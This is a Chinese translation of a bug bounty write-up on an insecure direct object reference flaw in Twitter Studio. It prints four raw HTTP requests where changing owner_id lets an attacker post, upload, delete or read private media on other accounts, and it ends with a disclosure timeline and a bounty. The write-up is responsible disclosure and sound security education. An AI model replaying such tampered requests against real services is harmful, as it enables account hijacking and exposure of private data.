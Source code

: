 # 我是如何黑掉所有 Twitter 账户的(以及我是如何获得 5040 美元奖金的)

> 原文：<https://www.freecodecamp.org/news/how-i-hacked-your-twitter-account-tweeting-viewing-deleting-photos-and-other-media-bf2cb3a18818/>

通过 AppSecure

# 我是如何黑掉所有 Twitter 账户的(以及我是如何获得 5040 美元奖金的)

![1*LmBD9OaRAJPnBYBoZwyZMw](img/70566cf8a5038b9c85f8a87f2bd30e78.png)

Photo by [Charles Deluvio ???? on](https://unsplash.com/photos/pjAH2Ax4uWk?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) Unsp[lash](https://unsplash.com/search/photos/hacker?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

### [总结](https://unsplash.com/search/photos/hacker?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

[这篇博文是关于 Twitter 上的一个](https://unsplash.com/search/photos/hacker?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) [不安全直接对象引用](https://www.owasp.org/index.php/Top_10_2013-A4-Insecure_Direct_Object_References)漏洞。攻击者可能会利用此漏洞进行各种活动。例如，他们可以从其他帐户发布推文，代表用户上传视频，从受害者的帐户中删除图片/视频，或查看其他 twitter 帐户上传的私人媒体。studio.twitter.com 的所有端点都很脆弱。

### **描述**

Twitter 是一种在线新闻和社交网络服务，用户可以发布消息并与之互动，称为“tweets”，限制在 140 个字符以内。注册用户可以发布推文，未注册的只能阅读。用户通过 Twitter 的网站界面、短信或移动设备应用程序访问 Twitter。

Twitter 在 2016 年 9 月推出了一款名为 Twitter Studio(studio.twitter.com)的新产品。发布后，我开始寻找安全漏洞。

studio.twitter.com 上的所有 API 请求都发送一个名为“owner_id”的参数，这是登录用户的公开 twitter 用户 id。`Owner_id`参数缺少对更改的授权检查，这允许我代表其他 Twitter 用户采取行动。

#### **易受攻击的请求#1(从其他 Twitter 账户发推文。)**

```
POST /1/tweet.json HTTP/1.1Host: studio.twitter.com
```

```
{“account_id”:”attacker’s account id”,”owner_id”:”victim’s user id”,”metadata”:{“monetize”:false,”embeddable_playback”:false,”title”:”Test tweet by attacker”,“description”:”attacker attacker”,”cta_type”:null,”cta_link”:null},”media_key”:””,“text”:”attacker attacker”}
```

用受害者的 ID 重放上述请求导致了来自受害者帐户的推文。

#### **易受攻击的请求#2(从另一个帐户上传媒体)**

```
POST /1/library/add.json HTTP/1.1Host: studio.twitter.com
```

```
{“account_id”:”attacker’s accountid”,”owner_id”:”victim’s id”,”metadata”:{“monetize”:false,”name”:”abcd.png”,”embeddable_playback”:true,”title”:”Attacker”,”description”:””,”cta_type”:null,”cta_link”:null},”media_id”:””,”managed”:false,”media_type”:”TweetImage”}
```

用受害者从其他用户帐户上传的`owner_id`媒体重放上述请求。

#### **易受攻击请求#3(删除其他帐户的视频)**

```
POST /1/library/remove.json HTTP/1.1Host: studio.twitter.com
```

```
{“account_id”:”attacker’s account id”,”owner_id”:”victim’s id”,”media_key”:”victim’s video id”}
```

使用受害者的用户 id 和受害者的`media_key`从受害者的帐户中删除媒体来重放上述请求。

#### **易受攻击的请求#4(私人媒体披露)**

`GET /1/library/list.json?account_id=attacker’s account id&owner_id=victim’s id&limit=20&offset=0 HTTP/1.1`
`Host: studio.twitter.com`
`User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:37.0) Gecko/20100101 Firefox/37.0`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`
`Accept-Language: en-US,en;q=0.5`
`Accept-Encoding: gzip, deflate`
`Referer: [https://studio.twitter.com/library](https://studio.twitter.com/library)`
`Cookie:`
`Connection: keep-alive`

用受害者的用户 ID 和我的账户 ID 重播上述请求，作为回应泄露了受害者 Twitter 账户的所有私人媒体。

### **视频概念验证**

所有的测试都是在得到朋友的允许后，用他的账户做的。

#### 受害者账户的第一条推文，私人媒体泄露

#### #2 从受害者的推文中删除媒体

### **时间线**

#### 2016 年 8 月 29 日

在 3 份不同的报告中向 Twitter 报告了所有发现，因为终点不同。

#### 2016 年 9 月 2 日

收到 Twitter 团队的回复，称我们正在调查该问题，并将关闭其他重复报告，因为它们有相同的根本原因，即缺少`owner_id`检查。

#### 2016 年 9 月 3 日

Twitter 奖励的赏金**5040 美元**

我是 AppSecure 的创始人，这是一家专业的网络安全公司，拥有多年的经验和细致的专业知识。我们在这里保护您的业务和关键数据免受在线和离线威胁或漏洞。

您可以通过 hello@appsecure.in 与我们联系